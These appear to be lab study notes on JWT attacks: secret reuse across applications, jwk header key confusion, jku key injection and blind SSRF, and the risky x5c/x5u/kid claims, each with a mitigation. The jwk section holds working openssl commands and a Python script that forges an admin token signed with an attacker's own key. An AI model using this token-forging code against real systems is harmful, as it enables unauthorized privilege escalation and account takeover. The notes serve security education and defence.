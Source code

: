 # Further JWT Attacks & Header Claim Exploitation

## Secret Reuse Across Applications
- If two different apps use the same symmetric secret for JWT signing, an attacker can reuse a token with elevated privileges from one context in another.
- **Lab scenario:**
  - Two domains: socialA.htb (role: moderator), socialB.htb (role: user)
  - Same secret for HS256 JWTs
  - Export moderator token from A and re-use on B to escalate privileges on B
- **Mitigation:** Always use separate secrets per app/environment.

---

## Exploiting the jwk Header Claim (Public Key Confusion)
- The `jwk` claim allows a JWT header to specify the public key that should be used to verify the asymmetric signature (e.g. RS256).
- If a server wrongly trusts attacker-supplied public keys from the header, an attacker can:
  1. Generate their own keypair (RSA):
     ```bash
     openssl genpkey -algorithm RSA -out exploit_private.pem -pkeyopt rsa_keygen_bits:2048
     openssl rsa -pubout -in exploit_private.pem -out exploit_public.pem
     ```
  2. Extract JWK from the generated public key (Python):
     ```python
     from cryptography.hazmat.primitives import serialization
     from cryptography.hazmat.backends import default_backend
     from jose import jwk
     import jwt
     
     payload = {"user": "htb-stdnt", "isAdmin": True}
     with open("exploit_public.pem", "rb") as f:
         pub = f.read()
     pub_obj = serialization.load_pem_public_key(pub, backend=default_backend())
     jwk_dict = jwk.construct(pub_obj, algorithm='RS256').to_dict()
     with open("exploit_private.pem", "rb") as f:
         priv = f.read()
     token = jwt.encode(payload, priv, algorithm='RS256', headers={'jwk': jwk_dict})
     print(token)
     ```
  3. Use the token as session cookie for privilege escalation.
- **Mitigation:** Do not trust attacker-supplied JWK data in headers.

---

## Exploiting the jku Claim / Blind SSRF
- The `jku` (JWK Set URL) claim lets a JWT specify an external URL where public keys may be fetched.
- If the server fetches the JWK Set from attacker-controlled URLs (without proper allowlisting / validation), attacker can:
  - Host their malicious JWK Set
  - Set the `jku` claim in JWT header to their server
  - Forge tokens and sign them with their own private key
  - Server fetches keys and accepts tokens (account takeover)
- **Security note:** Blind SSRF may also be possible via the jku claim if the backend fetches arbitrary URLs.

---

## Other Dangerous Claims
- **x5c / x5u:** Certificates and certificate URLs. Can be abused like jwk/jku if trust is misplaced.
- **kid:** Key ID - used for key selection; improper handling may lead to path traversal, injection, or key confusion attacks.

---
**Always validate and strictly control which header claims can be used.** Never let untrusted users supply keys or key URLs!
